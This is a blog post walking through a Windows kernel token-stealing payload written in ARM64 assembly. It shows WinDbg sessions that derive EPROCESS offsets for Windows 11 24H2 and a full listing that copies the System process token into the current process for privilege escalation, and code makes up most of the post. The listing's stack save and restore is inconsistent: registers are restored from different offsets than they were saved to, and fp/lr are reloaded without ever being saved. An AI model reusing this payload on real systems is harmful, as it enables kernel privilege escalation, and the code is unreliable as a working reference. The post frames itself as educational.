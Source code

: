 ```yaml
---
layout: default
title: "Understanding Token Stealing in Windows Kernel: An ARM64 Assembly (Shallow) Dive"
date: 2024-12-21 15:00:00 -0000
categories: posts
---
```


# Understanding Token Stealing in Windows Kernel: An ARM64 Assembly (Shallow) Dive

Token stealing is a common windows kernel shellcode technique. Today, we'll analyze an ARM64 assembly implementation that demonstrates this technique. This is for educational purposes only, and is intended to demonstrate how token stealing can be reimplemented on other architectures.

## The Code Structure

Let's break down the key components:

### Determining Kernel Offsets

Using a WinDBG kernel debugging session, we can determine the offsets for the following structures:

```armasm
KTHREAD_OFFSET     EQU 0x988    ; Offset to current KTHREAD
EPROCESS_OFFSET    EQU 0x0B0    ; Offset to EPROCESS
ACTIVEPROCESSLINKS EQU 0x1C8    ; Offset to ActiveProcessLinks
PID_OFFSET         EQU 0x1C0    ; Offset to process ID
TOKEN_OFFSET       EQU 0x238    ; Offset to process token
```

The KTHREAD and EPROCESS offset can be obtained by disassembling `nt!PsGetCurrentProcess`.

```armasm
0: kd> uf nt!PsGetCurrentProcess
nt!PsGetCurrentProcess:
fffff803`dfee6b70 f944c648 ldr         x8,[xpr,#0x988]
fffff803`dfee6b74 f9405900 ldr         x0,[x8,#0xB0]
fffff803`dfee6b78 d65f03c0 ret
```

The `xpr` register is an alias for `x18`, a platform specific register which points to KPCR in kernel mode as per [https://learn.microsoft.com/en-us/cpp/build/arm64-windows-abi-conventions?view=msvc-170](https://learn.microsoft.com/en-us/cpp/build/arm64-windows-abi-conventions?view=msvc-170).

The ACTIVEPROCESSLINKS offset is obtained by examining the EPROCESS structure.

```armasm
0: kd> !process 4 0
Searching for Process with Cid == 4
PROCESS ffffe609926a5080
    SessionId: none  Cid: 0004    Peb: 00000000  ParentCid: 0000
    DirBase: 400aa000  ObjectTable: ffffd30c54229c80  HandleCount: 2819.
    Image: System

0: kd> dt nt!_EPROCESS ffffe609926a5080 ActiveProcessLinks
   +0x1c8 ActiveProcessLinks : _LIST_ENTRY [ 0xffffe609`92721248 - 0xfffff803`e09786c0 ]
```

The same process can be used to determine the PID_OFFSET,

```armasm
0: kd> dt nt!_EPROCESS ffffe609926a5080 UniqueProcessId
   +0x1c0 UniqueProcessId  : 0x00000000`00000004 Void
```
and TOKEN_OFFSET,

```armasm
0: kd> dt nt!_EPROCESS ffffe609926a5080 Token
   +0x238 Token              : _EX_FAST_REF
```

## The Token Stealing Process

### 1. Register Preservation
The code begins by saving the `x0` and `x1` registers to the stack, since we'll be using them later:
```armasm
stp x0, x1, [sp, #-0x20]
stp x2, x3, [sp, #-0x10]
```

### 2. Locating Current Process
```armasm
ldr x0, [xpr, #0x988]    ; Get KTHREAD
ldr x0, [x0, #0xB0]      ; Get EPROCESS
```

This sequence retrieves the current process's EPROCESS structure into `x0`.

### 3. Finding System Process
The code then enters a loop to traverse the process list until it finds the System process (PID 4):
```armasm
find_system:
    add x0, x0, ACTIVEPROCESSLINKS
    ldr x0, [x0]
    sub x0, x0, ACTIVEPROCESSLINKS
    ldr w3, [x0, PID_OFFSET]
    cmp w3, w2
    b.ne find_system
```

### 4. Token Swapping
Once the System process is found, its token is copied to our current process:
```armasm
ldr x2, [x0, TOKEN_OFFSET]    ; Get System token
str x2, [x1, TOKEN_OFFSET]    ; Set token in our process
```


## Technical Notes

- The code uses ARM64's `stp`/`ldp` instructions for efficient register pairs handling
- The implementation assumes specific Windows kernel structure layouts (Windows 11 24H2)

## The Code

Below is the ARM64 assembly code for the token stealing process in armasm64 syntax.

```armasm
; Constants for Windows kernel offsets
KTHREAD_OFFSET     EQU 0x988    ; Offset to current KTHREAD
EPROCESS_OFFSET    EQU 0x0B0    ; Offset to EPROCESS
ACTIVEPROCESSLINKS EQU 0x1C8    ; Offset to ActiveProcessLinks
PID_OFFSET         EQU 0x1C0    ; Offset to process ID
TOKEN_OFFSET       EQU 0x238    ; Offset to process token

    AREA |.text|,CODE,READONLY
    ALIGN

token_stealing PROC
    ; Save registers
    stp x0, x1, [sp, #-0x20]
    stp x2, x3, [sp, #-0x10]

    ldr x0, [xpr, #0x988]
    ldr x0, [x0, #0xB0]

    mov x1, x0                    ; Save current EPROCESS in x1

    ; System process PID (4)
    mov x2, #4

find_system
    ; Get next process
    add x0, x0, ACTIVEPROCESSLINKS
    ldr x0, [x0]
    sub x0, x0, ACTIVEPROCESSLINKS    ; Adjust to get EPROCESS base

    ; Compare PID
    ldr w3, [x0, PID_OFFSET]
    cmp w3, w2
    b.ne find_system

    ; Found System process, copy token
    ldr x2, [x0, TOKEN_OFFSET]        ; Get System token
    str x2, [x1, TOKEN_OFFSET]        ; Set token in our process

    ; Restore registers
    ldp x0, x1, [sp, #0x0]
    ldp x2, x3, [sp, #0x10]
    ldp fp,lr,[sp],#0x0
    add sp, sp, #0x30
    ret
    ENDP

    END

```

The full code can be found [here] (https://github.com/glslang/winkexp/blob/main/src/asm/token_stealing_arm64.asm).

## Conclusion

This post describes how token stealing can be implemented, and derived, on ARM64, and can serve as a reference on how to implement token stealing on other architectures.

The offsets used in this code are specific to Windows 11 24H2, and may need to be adjusted for other versions of Windows.
